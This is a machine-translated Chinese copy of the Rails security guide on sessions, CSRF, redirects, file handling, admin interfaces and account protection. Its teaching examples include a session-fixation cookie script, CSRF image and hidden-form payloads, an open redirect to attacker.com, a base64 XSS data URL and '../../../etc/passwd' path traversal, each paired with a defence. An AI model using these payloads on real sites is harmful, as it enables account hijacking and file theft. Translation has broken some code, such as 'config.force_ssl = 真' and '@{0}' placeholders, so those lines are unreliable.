


1 介紹
Web 應用程式框架旨在幫助開發人員構建 Web 應用程式。其中一些還可以幫助您保護 Web 應用程式。事實上，一個框架並不比另一個更安全：如果您正確使用它，您將能夠使用許多框架構建安全的應用程式。 Ruby on Rails 有一些聰明的 helper 方法，例如針對 SQL 注入，所以這幾乎不是問題。
一般而言，不存在即插即用安全性之類的東西。安全性取決於使用框架的人，有時取決於開發方法。它取決於 Web 應用程式環境的所有層：後端儲存、Web 伺服器和 Web 應用程式本身（可能還有其他層或應用程式）。
然而，Gartner Group 估計 75% 的攻擊發生在 Web 應用程式層，並發現“在 300 個經過審計的站點中，97% 容易受到攻擊”。這是因為 Web 應用程式相對容易受到攻擊，因為它們很容易理解和操作，即使是外行也是如此。
針對 Web 應用程式的威脅包括使用者帳戶劫持、繞過訪問控制、讀取或修改敏感資料或呈現欺詐性內容。或者，攻擊者可能能夠安裝特洛伊木馬程式或未經請求的電子郵件傳送軟體，以謀取財務利益，或透過修改公司資源來損害品牌知名度。為了防止攻擊，儘量減少其影響，消除攻擊點，首先要充分了解攻擊方法，才能找到正確的對策。這就是本指南的目的。
為了開發安全的 Web 應用程式，您必須瞭解所有層的最新情況並瞭解您的敵人。要保持最新狀態，請訂閱安全郵件列表、閱讀安全部落格，並使更新和安全檢查成為一種習慣（檢視 其他資源 章節）。它是手動完成的，因為這是您發現令人討厭的邏輯安全問題的方式。
2 Sessions
本章描述了一些與sessions 相關的特定攻擊，以及保護會話資料的安全措施。
2.1 什麼是Session？
資訊：Sessions 使應用程式能夠在使用者與應用程式互動時維護特定於使用者的狀態。例如，會話允許使用者進行一次身份驗證並保持登入狀態以備將來的請求。
大多數應用程式需要跟蹤與應用程式互動的使用者的狀態。這可能是購物籃的內容，或當前登入使用者的使用者 ID。這種特定於使用者的狀態可以儲存在session 中。
Rails 為每個訪問應用程式的使用者提供一個session 物件。如果使用者已經有一個活躍的session，Rails 會使用現有的session。否則會建立一個新的session。
注意：在 Action Controller Overview 指南 中詳細瞭解 sessions 以及如何使用它們。
2.2 Session 劫持
警告：竊取使用者的session ID 可讓攻擊者以受害者的名義使用 Web 應用程式。
許多 Web 應用程式都有一個身份驗證系統：使用者提供使用者名稱和密碼，Web 應用程式檢查它們並將相應的使用者 ID 儲存在 session 雜湊中。從現在開始，session 有效。對於每個請求，應用程式將載入由session 中的使用者 ID 標識的使用者，而無需進行新的身份驗證。 cookie 中的session ID 標識session。
因此，cookie 用作 Web 應用程式的臨時身份驗證。任何從其他人那裡獲取cookie 的人都可以以此使用者身份使用網路應用程式 - 可能會產生嚴重後果。以下是一些劫持session 的方法及其對策：
-
在不安全的網路中嗅探cookie。無線區域網可以是這種網路的一個例子。在未加密的無線區域網中，監聽所有連線客戶端的流量特別容易。對於 Web 應用程式構建器，這意味著提供透過 SSL 的安全連線。在 Rails 3.1 及更高版本中，這可以透過在應用程式配置檔案中始終強制 SSL 連線來實現：
config.force_ssl = 真 ``
大多數人在公共終端工作後不會清除cookies。因此，如果最後一個使用者沒有退出 Web 應用程式，您將能夠以該使用者身份使用它。在 Web 應用程式中為使用者提供一個 log-out 按鈕，並使其突出。
許多跨站指令碼 (XSS) 攻擊旨在獲取使用者的cookie。稍後您將閱讀 更多關於 XSS。
他們不是竊取攻擊者未知的cookie，而是修復他們已知的使用者session 識別符號（在cookie 中）。稍後閱讀有關這種所謂的 session 固定的更多資訊。
大多數攻擊者的主要目標是賺錢。被盜銀行登入賬戶的地下價格範圍為賬戶餘額的 0.5%-10%，信用卡號碼 0.5-30 美元（20-60 美元，包含完整詳細資訊），0.1-1.5 美元身份（姓名、SSN 和 DOB）、20 美元- 根據 賽門鐵克網際網路安全威脅報告 (2017)，零售商帳戶為 50 美元，雲服務提供商帳戶為 6-10 美元.
2.3 Session 儲存
注意：Rails 使用 ActionDispatch::Session::CookieStore 作為預設的 session 儲存。
提示：在 Action Controller Overview 指南 中瞭解有關其他 session 儲存的更多資訊。
Rails CookieStore 將 session 雜湊儲存在客戶端的 cookie 中。
伺服器從cookie 和
消除了對session ID 的需要。這將大大增加
應用程式的速度，但它是一個有爭議的儲存選項和
您必須考慮安全影響和儲存
它的侷限性：
Cookie 的大小限制為 4 kB。僅將 cookie 用於與 session 相關的資料。
Cookies 儲存在客戶端。即使對於過期的 cookie，客戶端也可以保留 cookie 內容。客戶端可以將 cookie 複製到其他機器。避免在 cookie 中儲存敏感資料。
Cookie 本質上是臨時的。服務端可以為cookie設定過期時間，但客戶端可能會在此之前刪除cookie及其內容。在伺服器端保留所有更永久的資料。
Session cookies 不會使自己失效，可以被惡意使用 重用。讓您的應用程式失效可能是個好主意 session cookies 使用儲存的時間戳。
Rails 預設加密cookies。在不破壞加密的情況下，客戶端無法讀取或編輯 cookie 的內容。如果您妥善保管您的秘密，您可以認為您的cookies 總體上是安全的。
CookieStore 使用
加密
cookie jar 提供一個安全、加密的位置來儲存 session
資料。基於Cookie的sessions因此提供完整性和
對其內容保密。加密key，以及
驗證key 用於
簽名
cookies，源自secret_key_base 配置value。
提示：秘密必須長且隨機。使用bin/rails secret 獲取新的獨特秘密。
資訊：詳細瞭解 管理本指南後面的憑據
使用不同的鹽 values 進行加密和 簽名cookies。對不同的鹽配置使用相同的value values 可能導致相同的派生 key 被用於不同的 安全功能反過來可能會削弱key 的強度。
在測試和開發應用程式中，獲取從應用程式名稱派生的 secret_key_base。其他環境必須使用config/credentials.yml.enc 中存在的隨機key，此處以解密狀態顯示：
secret_key_base: 492f...
警告：如果您的應用程式的秘密可能已經暴露，請強烈考慮更改它們。更改secret_key_base 將使當前活動的sessions 過期。
2.4 輪換加密和簽名的Cookies 配置
輪換是更改 cookie 配置和確保舊 cookies 不會立即無效。然後您的使用者就有機會訪問您的網站， 使用舊配置讀取他們的 cookie 並使用 新變化。一旦您感到足夠舒適，就可以移除旋轉 使用者有機會升級他們的cookies。
可以輪換用於加密和簽名的cookies 的密碼和摘要。
例如，將用於簽名cookies 的摘要從 SHA1 更改為 SHA256， 您將首先分配新配置value：
Rails.application.config.action_dispatch.signed_cookie_digest = "SHA256"
現在為舊的 SHA1 摘要新增輪換，以便現有的 cookies 是 無縫升級到新的 SHA256 摘要。
Rails.application.config.action_dispatch.cookies_rotations.tap do |cookies|
cookies.rotate :signed, digest: "SHA1"
end
然後任何書面簽名的cookies 都將使用 SHA256 進行消化。老cookies 使用 SHA1 寫入的仍然可以讀取，如果訪問將被寫入 使用新的摘要，以便它們升級並且在您刪除時不會失效 迴轉。
一旦具有 SHA1 消化的使用者簽名cookies 就不再有機會 重寫他們的cookies，刪除旋轉。
雖然您可以根據需要設定任意數量的輪換，但擁有多個輪換並不常見 隨時輪換。
有關key 使用加密和簽名訊息進行輪換的更多詳細資訊，
以及rotate 方法接受的各種選項，請參考
這
MessageEncryptor API
和
MessageVerifier API
文件。
2.5 對CookieStore Session 的重放攻擊
提示：使用CookieStore 時必須注意的另一種攻擊是重放攻擊。
它是這樣工作的：
- 使用者收到積分，金額儲存在session 中（無論如何這是個壞主意，但我們將這樣做用於演示目的）。
- 使用者購買東西。
- 新調整的信用value 儲存在session 中。
- 使用者從第一步（他們之前複製的）中獲取cookie 並替換瀏覽器中的當前cookie。
- 使用者已返還其原始信用。
在session 中包含隨機數（隨機value）可以解決重放攻擊。一個 nonce 只有效一次，伺服器必須跟蹤所有有效的 nonce。如果您有多個應用程式伺服器，它會變得更加複雜。將隨機數儲存在資料庫表中會違背CookieStore 的全部目的（避免訪問資料庫）。
最好的解決方案不是將這種資料儲存在session 中，而是儲存在資料庫中。在這種情況下，將信用儲存在資料庫中，將logged_in_user_id 儲存在session 中。
2.6 Session 固定
注意：除了竊取使用者的session ID，攻擊者還可以修復他們已知的session ID。這稱為session 固定。

此攻擊側重於修復攻擊者已知的使用者session ID，並強制使用者的瀏覽器使用此 ID。因此攻擊者沒有必要事後竊取session ID。這是這種攻擊的工作原理：
- 攻擊者建立一個有效的session ID：他們載入想要修復session 的Web 應用程式的登入頁面，並從響應中獲取cookie 中的session ID（請參閱影象中的數字 1 和 2）。
- 他們透過定期訪問網路應用程式來維護session，以保持即將到期的session 存活。
- 攻擊者強制使用者的瀏覽器使用這個session ID（參見圖片中的數字 3）。由於您不能更改另一個域的cookie（因為同源策略），攻擊者必須從目標 Web 應用程式的域執行 JavaScript。透過 XSS 將 JavaScript 程式碼注入應用程式完成了這種攻擊。這是一個示例：
<script>document.cookie="_session_id=16d5b78abb28e3d6206b60f22a03c8d9";</script>。稍後閱讀有關 XSS 和注入的更多資訊。 - 攻擊者使用 JavaScript 程式碼將受害者引誘到受感染的頁面。透過view頁面，受害者的瀏覽器會將session ID 更改為陷阱session ID。
- 由於新陷阱session 未使用，Web 應用程式將要求使用者進行身份驗證。
- 從現在開始，受害者和攻擊者將共同使用具有相同session 的 Web 應用程式：session 生效並且受害者沒有注意到攻擊。
2.7 Session 固定 - 對策
提示：一行程式碼將保護您免受session 固定。
最有效的對策是釋出新的session識別符號並在成功登入後宣告舊的無效。這樣，攻擊者就不能使用固定的session 識別符號。這也是對抗session 劫持的一個很好的對策。下面是如何在 Rails 中建立一個新的 session：
reset_session
如果您使用流行的 Devise gem 進行使用者管理，它會在您登入和登出時自動過期sessions。如果您自己滾動，請記住在您登入action（會話建立時）後使會話過期。這將從會話中刪除values，因此您必須將它們轉移到新會話。
另一個對策是在session_ 中save 使用者特定的屬性，在每次請求進來時驗證它們，如果資訊不匹配，則拒絕訪問。這些屬性可能是遠端 IP 地址或使用者代理（Web 瀏覽器名稱），儘管後者不太特定於使用者。儲存 IP 地址時，您必須記住，有些 Internet 服務提供商或大型組織會將其使用者置於代理之後。 _這些可能會在session 的過程中發生變化，因此這些使用者將無法使用您的應用程式，或者只能以有限的方式使用。
2.8 Session 到期
注意：永不過期的 Session 會延長跨站點請求偽造 (CSRF)、會話劫持和會話固定等攻擊的時間範圍。
一種可能性是使用會話 ID 設定 cookie 的到期時間戳。但是，客戶端可以編輯儲存在 Web 瀏覽器中的 cookies，因此在伺服器上過期 sessions 更安全。下面是如何在資料庫表中expire sessions 的示例。呼叫Session.sweep(20.minutes) 使使用時間超過 20 分鐘的sessions 過期。
class Session < ApplicationRecord
def self.sweep(time = 1.hour)
where("updated_at < ?", time.ago.to_s(:db)).delete_all
end
end
關於會話固定的部分介紹了維護sessions 的問題。每五分鐘維護一次會話的攻擊者可以使會話永遠保持活動狀態，儘管您正在過期sessions。對此的一個簡單解決方案是將created_at 列新增到sessions 表中。現在您可以刪除很久以前建立的sessions。在上面的掃描方法中使用此行：
where("updated_at < ? OR created_at < ?", time.ago.to_s(:db), 2.days.ago.to_s(:db)).delete_all
3 跨站請求偽造 (CSRF)
這種攻擊方法的工作原理是在訪問使用者認為已透過身份驗證的 Web 應用程式的頁面中包含惡意程式碼或連結。如果該 Web 應用程式的 session 未超時，則攻擊者可能會執行未經授權的命令。

在會話章節 中，您已經瞭解到大多數Rails 應用程式使用基於cookie 的sessions。他們要麼將會話 ID 儲存在 cookie 中並具有伺服器端會話雜湊，要麼整個會話雜湊都在客戶端。在任何一種情況下，如果瀏覽器可以找到該域的 cookie，瀏覽器都會在每次請求時自動傳送 cookie。有爭議的一點是，如果請求來自不同域的站點，它也會發送cookie。讓我們從一個例子開始：
- Bob 瀏覽留言板並views 來自駭客的帖子，其中包含精心製作的 HTML 影象元素。該元素引用 Bob 的專案管理應用程式中的命令，而不是影象檔案：
<img src="http://www.webapp.com/project/1/destroy"> - Bob 在
www.webapp.com的session 還活著，因為他幾分鐘前沒有登出。 - 透過view帖子，瀏覽器會找到一個圖片標籤。它嘗試從
www.webapp.com載入可疑影象。如前所述，它還會發送帶有有效session ID 的cookie。 -
www.webapp.com處的web應用驗證對應session雜湊中的使用者資訊，並銷燬ID為1的專案。然後返回一個結果頁面，這是瀏覽器的意外結果，因此不會顯示圖片。 - Bob 沒有注意到攻擊 - 但幾天後他發現第一號專案已經消失。
需要注意的是，實際製作的影象或連結不一定位於 Web 應用程式的域中，它可以位於任何地方 - 論壇、部落格文章或電子郵件中。
CSRF 在 CVE（常見漏洞和暴露）中很少出現——2006 年不到 0.1%——但它確實是一個“沉睡的巨人”[Grossman]。這與許多安全合約工作的結果形成鮮明對比——CSRF 是一個重要的安全問題。
3.1 CSRF 對策
注意：首先，根據 W3C 的要求，適當地使用 GET 和 POST。其次，非 GET 請求中的安全 token 將保護您的應用程式免受 CSRF.
HTTP 協議基本上提供了兩種主要型別的請求 - GET 和 POST（DELETE、PUT 和 PATCH 應該像 POST 一樣使用）。全球資訊網聯盟 (W3C) 提供了用於選擇 HTTP GET 或 POST 的清單：
在以下情況下使用 GET：
- interaction 更像是一個問題_（即，它是一種安全操作，例如查詢、讀取操作或查詢）。
在以下情況下使用 POST：
- interaction 更像是一個訂單_，或者
- interaction 改變資源的狀態以使用者會感知的方式（例如，訂閱服務），或
- 使用者對 interaction 的結果負責_。
如果您的 Web 應用程式是 RESTful，則您可能習慣於其他 HTTP 動詞，例如 PATCH、PUT 或 DELETE。但是，一些舊版 Web 瀏覽器不支援它們 - 僅支援 GET 和 POST。 Rails 使用隱藏的 _method 欄位來處理這些情況。
POST 請求也可以自動傳送。在此示例中，連結 www.harmless.com 顯示為瀏覽器狀態列中的目的地。但它實際上動態地建立了一個傳送 POST 請求的新表單。
<a href="http://www.harmless.com/" onclick="
var f = document.createElement('form');
f.style.display = 'none';
this.parentNode.appendChild(f);
f.method = 'POST';
f.action = 'http://www.example.com/account/destroy';
f.submit();
return false;">To the harmless survey</a>
或者攻擊者將程式碼放入影象的 onmouseover 事件處理程式中：
<img src="http://www.harmless.com/img" width="400" height="400" onmouseover="..." />
還有許多其他可能性，例如使用@{0} 標記向帶有 JSONP 或 JavaScript 響應的 URL 發出跨站點請求。響應是攻擊者可以找到執行方式的可執行程式碼，可能會提取敏感資料。為了防止這種資料洩露，我們必須禁止跨站點@{0} 標籤。但是，Ajax 請求遵循瀏覽器的同源策略（只有您自己的站點被允許發起XmlHttpRequest），因此我們可以安全地允許它們返回 JavaScript 響應。
注意：我們無法區分@{0} 標籤的來源——它是你自己網站上的標籤還是其他惡意網站上的標籤——所以我們必須全面阻止所有@{_0}，即使它實際上是一個安全的相同-從您自己的站點提供的原始指令碼。在這些情況下，顯式跳過對 actions 的 CSRF 保護，該保護為 @{0} 標記提供 JavaScript。
為了防止所有其他偽造請求，我們引入了一個 required 安全token，我們的網站知道但其他網站不知道。我們在請求中包含安全性token 並在伺服器上對其進行驗證。這在config.action_controller.default_protect_from_forgery 設定為true 時自動完成，這是新建立的Rails 應用程式的預設設定。您也可以透過將以下內容新增到您的應用程式controller 來手動執行此操作：
protect_from_forgery with: :exception
這將包括 Rails 生成的所有表單和 Ajax 請求中的安全性 token。如果安全token 與預期不匹配，則會引發異常。
注意：預設情況下，Rails 包含一個 不顯眼的指令碼介面卡，
它在每個非 GET 上添加了一個名為 X-CSRF-Token 的標頭，其安全性為 token
阿賈克斯呼叫。如果沒有這個標頭，Rails 將不會接受非 GET Ajax 請求。
使用其他庫進行 Ajax 呼叫時，需要新增安全性
token 作為庫中 Ajax 呼叫的預設標頭。要獲得token，有
看看<meta name='csrf-token' content='THE-TOKEN'> 標籤列印
<%= csrf_meta_tags %> 在您的應用程式 view 中。
通常使用持久化cookies 來儲存使用者資訊，例如cookies.permanent。在這種情況下，cookies 不會被清除，開箱即用的 CSRF 保護將無效。如果您使用與 session 不同的 cookie 儲存來儲存此資訊，您必須自己處理如何處理它：
rescue_from ActionController::InvalidAuthenticityToken do |exception|
sign_out_user # Example method that will destroy the user cookies
end
上述方法可以放在ApplicationController 中，當CSRF token 不存在或非GET 請求不正確時會呼叫。
請注意，跨站指令碼 (XSS) 漏洞繞過所有 CSRF 保護。 XSS 使攻擊者可以訪問頁面上的所有元素，因此他們可以從表單中讀取 CSRF 安全 token 或直接提交表單。稍後閱讀 更多關於 XSS。
4 重定向和檔案
另一類安全漏洞與 Web 應用程式中重定向和檔案的使用有關。
4.1 重定向
警告：Web 應用程式中的重定向是一種被低估的破解工具：攻擊者不僅可以將使用者轉發到陷阱網站，還可以建立自包含攻擊。
每當允許使用者傳遞（部分）URL 以進行重定向時，它就可能容易受到攻擊。最明顯的攻擊是將使用者重定向到外觀和感覺與原始應用程式完全相同的虛假 Web 應用程式。這種所謂的網路釣魚攻擊的工作原理是在電子郵件中向用戶傳送不可疑的連結，透過 XSS 將連結注入 Web 應用程式或將連結放入外部站點。這是不可疑的，因為連結以 Web 應用程式的 URL 開頭，而惡意站點的 URL 隱藏在重定向引數中：http://www.example.com/site/redirect?to=www.attacker.com .以下是遺留action 的示例：
def legacy
redirect_to(params.update(action:'main'))
end
如果使用者嘗試訪問舊版 action，這會將使用者重定向到主 action。目的是將 URL 引數保留給舊版 action 並將它們傳遞給主 action。但是，如果攻擊者在 URL 中包含主機 key，則攻擊者可以利用它：
http://www.example.com/site/legacy?param1=xy¶m2=23&host=www.attacker.com
如果它在 URL 的末尾，它幾乎不會被注意到並將使用者重定向到 attacker.com 主機。作為一般規則，將使用者輸入直接傳遞給 redirect_to 被認為是危險的。一個簡單的對策是在遺留action_ 中僅包含預期引數（同樣是允許的列表方法，而不是刪除意外引數）。 如果您重定向到一個 URL，請使用允許的列表或正則表示式進行檢查。
4.1.1 自包含 XSS
另一種重定向和自包含 XSS 攻擊透過使用資料協議在 Firefox 和 Opera 中起作用。該協議直接在瀏覽器中顯示其內容，可以是從 HTML 或 JavaScript 到整個影象的任何內容：
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
這個例子是一個 Base64 編碼的 JavaScript，它顯示一個簡單的訊息框。在重定向 URL 中，攻擊者可以重定向到包含惡意程式碼的 URL。作為對策，不允許使用者提供（部分）要重定向到的 URL。
4.2 檔案上傳
注意：確保檔案上傳不會覆蓋重要檔案，並非同步處理媒體檔案。
許多 Web 應用程式允許使用者上傳檔案。 使用者可以（部分）選擇的檔名應始終被過濾，因為攻擊者可以使用惡意檔名覆蓋伺服器上的任何檔案。如果您將檔案上傳儲存在 /var/www/uploads 中，並且使用者輸入類似“../../../etc/passwd”的檔名，則可能會覆蓋重要檔案。當然，Ruby 直譯器需要適當的許可權才能這樣做——這是以較低特權的 Unix 使用者身份執行 Web 伺服器、資料庫伺服器和其他程式的另一個原因。
過濾使用者輸入檔名時，不要嘗試刪除惡意部分。想一想 Web 應用程式刪除檔名中的所有“../”並且攻擊者使用諸如“..//”之類的字串的情況 - 結果將是“../”。最好使用允許列表方法，該方法使用一組可接受的字元檢查檔名的有效性。這與嘗試刪除不允許的字元的受限列表方法相反。如果它不是有效的檔名，請拒絕它（或替換不被接受的字元），但不要刪除它們。這是 attachment_fu 外掛 中的檔名 sanitizer：
def sanitize_filename(filename)
filename.strip.tap do |name|
# NOTE: File.basename doesn't work right with Windows paths on Unix
# get only the filename, not the whole path
name.sub! /\A.*(\\|\/)/, ''
# Finally, replace all non alphanumeric, underscore
# or periods with underscore
name.gsub! /[^\w\.\-]/, '_'
end
end
檔案上傳同步處理的一個顯著缺點（如attachment_fu 外掛可能對影象所做的那樣）是它易受拒絕服務攻擊。攻擊者可以從多臺計算機同步啟動影象檔案上傳，這會增加伺服器負載並最終可能導致伺服器崩潰或停止。
解決此問題的最佳方法是非同步處理媒體檔案：儲存媒體檔案並在資料庫中安排處理請求。第二個程序將在後臺處理檔案。
4.3 檔案上傳中的可執行程式碼
警告：上傳檔案中的 Source 程式碼放置在特定目錄中時可能會被執行。如果是 Apache 的主目錄，請不要將檔案上傳放在 Rails 的 /public 目錄中。
流行的 Apache Web 伺服器有一個名為 DocumentRoot 的選項。這是網站的主目錄，此目錄樹中的所有內容都將由 Web 伺服器提供服務。如果存在具有特定副檔名的檔案，則會在請求時執行其中的程式碼（可能需要設定一些選項）。這方面的示例是 PHP 和 CGI 檔案。現在想想攻擊者上傳一個包含程式碼的檔案“file.cgi”的情況，當有人下載檔案時會執行該檔案。
如果您的 Apache DocumentRoot 指向 Rails 的 /public 目錄，請不要將檔案上傳放在其中，至少向上儲存一層。
4.4 檔案下載
注意：確保使用者不能下載任意檔案。
正如您必須為上傳過濾檔名一樣，您也必須為下載過濾檔名。 send_file() 方法將檔案從伺服器傳送到客戶端。如果使用使用者輸入的檔名，無需過濾，則可以下載任何檔案：
send_file('/var/www/uploads/' + params[:filename])
只需傳遞像“../../../etc/passwd”這樣的檔名即可下載伺服器的登入資訊。一個簡單的解決方案是檢查請求的檔案是否在預期的目錄中：
basename = File.expand_path('../../files', __dir__)
filename = File.expand_path(File.join(basename, @file.public_filename))
raise if basename !=
File.expand_path(File.join(File.dirname(filename), '../../../'))
send_file filename, disposition: 'inline'
另一種（附加）方法是將檔名儲存在資料庫中，並在資料庫中的 id 之後命名磁碟上的檔案。這也是避免執行上傳檔案中可能的程式碼的好方法。 attachment_fu 外掛以類似的方式執行此操作。
5 內網和管理安全
Intranet 和管理介面是流行的攻擊目標，因為它們允許特權訪問。儘管這需要一些額外的安全措施，但在現實世界中情況恰恰相反。
2007年出現了第一個從內網竊取資訊的特製木馬，即線上招聘網路應用Monster.com的“僱主怪物”網站。到目前為止，定製的木馬非常罕見，風險也很低，但它肯定是一種可能性，也是客戶端主機安全性如何重要的一個例子。但是，對內網和管理應用程式的最大威脅是 XSS 和 CSRF。
XSS 如果您的應用程式重新顯示來自外網的惡意使用者輸入，則該應用程式將容易受到 XSS 攻擊。使用者名稱、評論、垃圾郵件報告、訂單地址只是一些不常見的例子，其中可能存在 XSS。
在管理介面或 Intranet 中只有一個地方沒有對輸入進行清理，這會使整個應用程式容易受到攻擊。可能的漏洞利用包括竊取特權管理員的cookie、注入 iframe 以竊取管理員密碼或透過瀏覽器安全漏洞安裝惡意軟體來接管管理員的計算機。
有關 XSS 的對策，請參閱注入部分。
CSRF Cross-Site Request Forgery (CSRF)，又稱跨站引用偽造（XSRF），是一種巨大的攻擊手段，它允許攻擊者做管理員或內網使用者可以做的一切。正如您在上面已經看到 CSRF 的工作原理，這裡有一些攻擊者可以在 Intranet 或管理介面中執行的操作的示例。
一個真實的例子是 [CSRF 的路由器重新配置](http://www.h-online.com/security/news/item/Symantec-reports-first-active-attack-on-a-DSL-router- 735883.html）。攻擊者向墨西哥使用者傳送了一封帶有 CSRF 的惡意電子郵件。該電子郵件聲稱有一張電子賀卡在等待使用者，但它也包含一個影象標籤，該標籤導致 HTTP-GET 請求重新配置使用者的路由器（這是墨西哥流行的model）。該請求更改了 DNS 設定，以便將針對墨西哥銀行站點的請求對映到攻擊者的站點。透過該路由器訪問銀行網站的每個人都看到了攻擊者的虛假網站，並且他們的憑據被盜。
另一個示例更改了 Google Adsense 的電子郵件地址和密碼。如果受害者登入 Google Adsense（谷歌廣告活動的管理介面），攻擊者就可以更改受害者的憑據。
另一種流行的攻擊是向您的 Web 應用程式、部落格或論壇傳送垃圾郵件以傳播惡意 XSS。當然，攻擊者必須知道 URL 結構，但如果是開源應用程式的管理介面，大多數 Rails URL 非常簡單，或者很容易找到。攻擊者甚至可以透過包含嘗試各種可能組合的惡意 IMG 標籤進行 1,000 次幸運猜測。
管理介面和內網應用中針對CSRF的對策，請參考CSRF部分的對策。
5.1 其他注意事項
通用管理介面的工作方式如下：它位於 www.example.com/admin，只有在 Usermodel 中設定了 admin 標誌時才能訪問，重新顯示使用者輸入並允許管理員刪除/新增/edit 所需的任何資料。這裡有一些關於這個的想法：
考慮最壞的情況非常重要：如果有人真的掌握了您的cookies 或使用者憑據怎麼辦。您可以為管理介面引入角色以限制攻擊者的可能性。或者管理介面的特殊登入憑據怎麼樣，除了用於應用程式公共部分的那些。或者非常嚴肅的actions_ 的_特殊密碼？
管理員真的必須從世界各地訪問介面嗎？考慮限制登入到一堆源 IP 地址。檢查 request.remote_ip 以瞭解使用者的 IP 地址。這不是防彈的，而是一個很大的障礙。但是請記住，可能正在使用代理。
將管理介面放到一個特殊的子域中例如 admin.application.com 並使其成為具有自己使用者管理的單獨應用程式。這使得從通常的域 www.application.com 竊取管理員cookie 變得不可能。這是因為瀏覽器中的同源策略：www.application.com 上的注入 (XSS) 指令碼可能無法讀取 admin.application.com 的 cookie，反之亦然。
6 使用者管理
注意：幾乎每個 Web 應用程式都必須處理授權和身份驗證。最好使用通用外掛，而不是自己滾動。但也要讓它們保持最新狀態。一些額外的預防措施可以使您的應用程式更加安全。
有許多可用的 Rails 身份驗證外掛。好的，比如流行的devise和authlogic，只儲存加密密碼，不儲存明文密碼。從 Rails 3.1 開始，您還可以使用內建的 has_secure_password 方法，支援密碼加密、確認和恢復機制。
6.1 蠻力帳戶
注意：對帳戶的 Brute-force 攻擊是對登入憑據的試錯攻擊。用更通用的錯誤訊息和可能需要輸入 CAPTCHA 來抵禦它們。
您的 Web 應用程式的使用者名稱列表可能會被濫用來暴力破解相應的密碼，因為大多數人不使用複雜的密碼。大多數密碼是字典單詞和數字的組合。有了使用者名稱列表和字典，自動程式可能會在幾分鐘內找到正確的密碼。
因此，如果其中之一不正確，大多數 Web 應用程式將顯示通用錯誤訊息“使用者名稱或密碼不正確”。如果它說“未找到您輸入的使用者名稱”，攻擊者可以自動編譯使用者名稱列表。
然而，大多數 Web 應用程式設計人員忽略的是忘記密碼的頁面。這些頁面通常承認已（未）找到輸入的使用者名稱或電子郵件地址。這允許攻擊者編譯使用者名稱列表並暴力破解帳戶。
為了減輕此類攻擊，在忘記密碼頁面上也顯示通用錯誤訊息。此外，您可以要求在從某個 IP 地址登入多次失敗後輸入驗證碼。但是請注意，這不是針對自動程式的防彈解決方案，因為這些程式可能會經常更改其 IP 地址。然而，它提高了攻擊的壁壘。
6.2 帳號劫持
許多 Web 應用程式可以輕鬆劫持使用者帳戶。為什麼不與眾不同並讓它變得更加困難？
6.2.1 密碼
想一想攻擊者竊取了使用者的sessioncookie 並因此可能共同使用該應用程式的情況。如果更改密碼很容易，攻擊者只需點選幾下即可劫持該帳戶。或者，如果更改密碼錶單容易受到 CSRF 攻擊，攻擊者將能夠透過將受害者引誘到一個網頁上來更改受害者的密碼，該網頁上有一個精心製作的 IMG 標籤來執行 CSRF。當然，作為對策，make change-password 形式可以安全地對抗 CSRF。並且要求使用者在更改時輸入舊密碼。
6.2.2 電子郵件
但是，攻擊者也可能透過更改電子郵件地址來接管該帳戶。更改後，他們將轉到忘記密碼頁面，並將（可能是新的）密碼郵寄到攻擊者的電子郵件地址。作為對策要求使用者在更改電子郵件地址時也輸入密碼。
6.2.3 其他
根據您的 Web 應用程式，可能有更多方法可以劫持使用者的帳戶。在許多情況下，CSRF 和 XSS 將有助於做到這一點。例如，如 Google Mail 中的 CSRF 漏洞。在這種概念驗證攻擊中，受害者會被引誘到攻擊者控制的網站。在該站點上有一個精心製作的 IMG 標籤，它會產生一個更改 Google Mail 過濾器設定的 HTTP GET 請求。如果受害者登入到 Google Mail，攻擊者將更改過濾器以將所有電子郵件轉發到他們的電子郵件地址。這幾乎與劫持整個帳戶一樣有害。作為對策，review 您的應用程式邏輯並消除所有 XSS 和 CSRF 漏洞。
6.3 驗證碼
資訊：A CAPTCHA 是一種質詢-響應測試，用於確定響應不是由計算機生成的。它通常用於透過要求使用者鍵入扭曲影象的字母來保護登錄檔免受攻擊者和評論表單免受自動垃圾郵件機器人的攻擊。這是正面的驗證碼，但也有負面的驗證碼。否定驗證碼的想法不是讓使用者證明他們是人類，而是揭示機器人是機器人。
一個流行的正面驗證碼 API 是 reCAPTCHA，它顯示舊書中單詞的兩個扭曲影象。它還添加了一條斜線，而不是像早期的 CAPTCHA 那樣在文字上新增扭曲的背景和高度翹曲，因為後者已損壞。作為獎勵，使用 reCAPTCHA 有助於將舊書數字化。 ReCAPTCHA也是一個與API同名的Rails外掛。
您將從 API 中獲得兩個 keys，一個公鑰和一個私鑰，您必須將它們放入 Rails 環境中。之後，您可以在view 中使用recaptcha_tags 方法，在controller 中使用verify_recaptcha 方法。如果驗證失敗，Verify_recaptcha 將返回 false。 CAPTCHA 的問題在於它們對使用者體驗有負面影響。此外，一些視障使用者發現某些型別的扭曲驗證碼難以閱讀。儘管如此，正面的 CAPTCHA 是防止各種機器人提交表單的最佳方法之一。
大多數機器人真的很愚蠢。他們抓取網路並將垃圾郵件放入他們可以找到的每個表單欄位中。否定驗證碼利用這一點，並在表單中包含一個“蜜罐”欄位，該欄位將透過 CSS 或 JavaScript 對人類使用者隱藏。
